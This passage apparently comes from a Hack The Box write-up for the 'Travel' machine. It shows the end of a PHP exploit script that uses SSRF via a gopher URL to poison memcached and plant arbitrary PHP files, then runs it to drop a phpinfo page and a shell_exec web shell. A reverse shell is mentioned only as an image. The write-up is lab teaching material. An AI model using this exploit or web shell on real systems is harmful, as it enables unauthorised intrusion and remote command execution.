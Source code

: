 ```php
    '-m 5 \\' .
    '-o /dev/null \\' .
    'http://blog.travel.htb/awesome-rss/?custom_feed_url=' .
    'gopher://0:11211//' .
    $crlf .
    'set' . $space . $key . $space . '0'. $space . '60' . $space . $length .
    $crlf .
    $payload .
    $crlf);

/* reload */
shell_exec('curl \\' .
    '-s \\' .
    '-m 5 \\' .
    '-o /dev/null \\' .
    'http://blog.travel.htb/awesome-rss/?custom_feed_url=' .
    $feed);

echo '[*] Backdoor at http://blog.travel.htb/wp-content/themes/twentytwenty/logs/' . $argv[1] . "\n";

?>
```

The script takes in two arguments: (1) filename to write to `/logs/` and (2) the PHP backdoor code. If the server is not responding fast enough, increase `curl`'s maximum waiting time (`-m`). Run the exploit like so.

```
# php exploit.php info.php '<?php phpinfo(); ?>'
[*] Backdoor at http://blog.travel.htb/wp-content/themes/twentytwenty/logs/info.php
```

The backdoor should be written to `/logs/` like so.

{% include image.html image_alt="74290f6b.png" image_src="/ee0b9ede-f5a3-41e3-b2c8-e896ab653ff8/74290f6b.png" %}

## Low-Privilege Shell

Time to write another backdoor that allows us to execute remote commands.

```
# php exploit.php cmd.php '<?php echo shell_exec($_GET[0]); ?>'
```

Bam.

{% include image.html image_alt="4bac106f.png" image_src="/ee0b9ede-f5a3-41e3-b2c8-e896ab653ff8/4bac106f.png" %}

Let's run a one-liner Perl reverse shell back to me.

{% include image.html image_alt="f5af570a.png" image_src="/ee0b9ede-f5a3-41e3-b2c8-e896ab653ff8/f5af570a.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/252
[2]: https://www.hackthebox.eu/home/users/profile/77141
[3]: https://www.hackthebox.eu/home/users/profile/13569
[4]: https://www.hackthebox.eu/